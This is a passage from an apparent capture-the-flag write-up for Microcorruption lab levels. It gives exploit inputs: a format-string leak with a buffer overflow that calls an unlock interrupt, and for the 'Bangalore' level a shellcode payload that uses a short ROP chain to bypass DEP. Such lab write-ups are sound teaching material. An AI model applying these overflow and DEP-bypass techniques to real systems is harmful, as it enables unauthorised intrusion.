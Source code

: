 > In this case, the offset is `0xc5de - 0x476a = 0x7e74`

With the offset, we can then overflow the password input to gain control of the instruction pointer and call the `_INT` function with `0x7f` as the parameter to unlock the door:

`_INT: leak + (0x48ec - 0x476a)`

username: `%x %x`

password: `4141 4141 4141 4141 {pack(leak)} 4141 7f`

# Bangalore - 100pts

```
set_up_protection() {
  r15 = 0;
  mark_page_executable(r15);
  r11 = 0x1;
  if (r11 != 0x44) {
    r15 = r11;
    mark_page_writable(r15);
    r11++;
  }

  if (r11 != 0x100) {
  r15 = r11;
  mark_page_executable(r15);
  r11++;
  }

  turn_on_dep();
}
```

This challenge introduces NX/DEP which marks the 256 memory pages either writable or executable. The first approach would be to construct a ROP chain using existing gadgets; however, it is a small binary and there is no way we can set `sr` to `0xff00` directly.

That means, we have to inject and execute our own shellcode. We can first write the shellcode to the stack while it is still writable, change the stack to a executable region using a short ROP chain and then call our shellcode.

Here is how the payload would look like:

- shellcode to unlock the door
- padding
- address of the `mark_page_executable` function
- parameters to function placed in reverse order
- the address of the shellcode

password: `3240 00ff b012 1000 4141 4141 4141 4141 ba44 3f00 0000 ee3f`

# Lagos - 150pts
